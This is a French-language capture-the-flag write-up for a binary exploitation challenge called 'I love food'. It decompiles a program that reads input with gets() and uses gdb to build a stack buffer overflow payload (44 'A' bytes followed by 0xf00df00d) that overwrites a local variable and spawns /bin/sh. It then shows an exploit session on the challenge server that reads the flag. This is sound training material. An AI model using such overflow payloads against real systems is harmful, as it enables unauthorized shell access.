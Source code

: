 # I love food !

Sujet :

```md
I made a program to know more about the tastes of the players, what's your favorite food ? :)

http://internetcest.fun:13338
```

[Cet exécutable](./i_love_food) est fournis. Essayons le :

```console
$ ./i_love_food 
What is your favorite dish ? 
test
Interesting... Mine is DEADBEEF :) 
```

Le programme demande une entrée de l'utilisateur, et s'arrête. Explorons le code.

## Reverse

Avec ghidra on obtient le code suivant :

```C
undefined8 main(void)

{
  setup();
  vuln();
  return 0;
}
```

```C
void vuln(void)

{
  char local_38 [44];
  uint local_c;
  
  local_c = 0xdeadbeef;
  puts("What is your favorite dish ? ");
  gets(local_38);
  if (local_c == 0xf00df00d) {
    puts("Damn that\'s a good one !");
    system("/bin/sh");
  }
  else {
    printf("Interesting... Mine is %X :)",(ulong)local_c);
  }
  return;
}
```

On veut exécuter la commande `system("/bin/sh");` dans la fonction vuln() pour obtenir un shell. Il faut donc valider la condition `if (local_c == 0xf00df00d)`.  
  
La fonction gets() utilisé pour récupérer l'entrée de l'utilisateur étant vulnérable à un buffer overflow, on comprend qu'il faut utiliser cette faille pour modifier la variable local_c.

## Payload

Utilisons gdb pour trouver notre payload :

```console
$ gdb i_love_food -q   
Reading symbols from i_love_food...
(No debugging symbols found in i_love_food)
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0000000000001194 <+0>:	push   %rbp
   0x0000000000001195 <+1>:	mov    %rsp,%rbp
   0x0000000000001198 <+4>:	sub    $0x30,%rsp
   0x000000000000119c <+8>:	movl   $0xdeadbeef,-0x4(%rbp)
   0x00000000000011a3 <+15>:	lea    0xe5a(%rip),%rax        # 0x2004
   0x00000000000011aa <+22>:	mov    %rax,%rdi
   0x00000000000011ad <+25>:	call   0x1030 <puts@plt>
   0x00000000000011b2 <+30>:	lea    -0x30(%rbp),%rax
   0x00000000000011b6 <+34>:	mov    %rax,%rdi
   0x00000000000011b9 <+37>:	mov    $0x0,%eax
   0x00000000000011be <+42>:	call   0x1070 <gets@plt>
   0x00000000000011c3 <+47>:	cmpl   $0xf00df00d,-0x4(%rbp)
   0x00000000000011ca <+54>:	jne    0x11ec <vuln+88>
   0x00000000000011cc <+56>:	lea    0xe4f(%rip),%rax        # 0x2022
   0x00000000000011d3 <+63>:	mov    %rax,%rdi
   0x00000000000011d6 <+66>:	call   0x1030 <puts@plt>
   0x00000000000011db <+71>:	lea    0xe59(%rip),%rax        # 0x203b
   0x00000000000011e2 <+78>:	mov    %rax,%rdi
   0x00000000000011e5 <+81>:	call   0x1050 <system@plt>
   0x00000000000011ea <+86>:	jmp    0x1205 <vuln+113>
   0x00000000000011ec <+88>:	mov    -0x4(%rbp),%eax
   0x00000000000011ef <+91>:	mov    %eax,%esi
   0x00000000000011f1 <+93>:	lea    0xe4b(%rip),%rax        # 0x2043
   0x00000000000011f8 <+100>:	mov    %rax,%rdi
   0x00000000000011fb <+103>:	mov    $0x0,%eax
   0x0000000000001200 <+108>:	call   0x1060 <printf@plt>
   0x0000000000001205 <+113>:	nop
   0x0000000000001206 <+114>:	leave
   0x0000000000001207 <+115>:	ret
End of assembler dump.
(gdb) break *vuln+47
Breakpoint 1 at 0x11c3
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xdeadbe00
0x7fffffffda50:	0xffffda70	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
```

On lance gdb, ajoute un break après l'appel de la fonction gets, et rentre 44 charactères A pour remplir le buffer utilisé pour stocker l'entrée de l'utilisateur. En observant la stack on voit que la variable local_c contenant `deadbeef` est stocké directement après. Essayons de la modifier :

```console
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xf00df00d
0x7fffffffda50:	0xffffda00	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
(gdb) c
Continuing.
Damn that's a good one !
[Detaching after vfork from child process 4655]

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

On arrive bien au message de succès. Testons le payload directement sur l'executable :

```console
$ (python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee) | ./i_love_food  
What is your favorite dish ? 

Damn that's a good one !
whoami
coucou
ls
exploit.py  i_love_food  README.md
```

Le programme lance bien /bin/sh, le payload final est donc `"\x41"*44+"\x0d\xf0\x0d\xf0"`.

## Exploit

Il faut maintenant se connecter au service et envoyer le payload. On utilise donc [ce script python](./exploit.py) qui permet de ce connecter au serveur, envoyer le payload, puis d'interagir avec le shell pour obtenir le flag :

```console
$ python3 exploit.py                                                                              
b"What is your favorite dish ? \nDamn that's a good one !\n"
whoami
b'root\n'
ls
b'flag.txt\ni_love_food\ni_love_food.c\n'
cat flag.txt
b'FLAG{I_JU5T_L1K3_F00D!!}\n'
```
